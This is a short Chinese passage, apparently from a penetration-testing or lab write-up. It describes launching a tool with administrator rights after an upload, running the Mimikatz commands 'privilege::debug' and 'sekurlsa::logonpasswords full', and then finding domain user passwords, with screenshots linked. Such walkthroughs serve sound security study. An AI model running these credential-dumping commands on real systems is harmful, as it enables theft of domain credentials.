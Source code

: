 上传成功后以管理员权限启动：

![image-20220617111155310625-1655884183643012.png](img/Untitled.assets/263c0a9fb389a090e6e7609354756d94.png)

```
privilege::debug

sekurlsa::logonpasswords full
```

发现域用户密码信息：

![image-20220617111640759898-1655884184920754.png](img/Untitled.assets/dbc4311ebd48f897303fefbfb2e388b7.png)
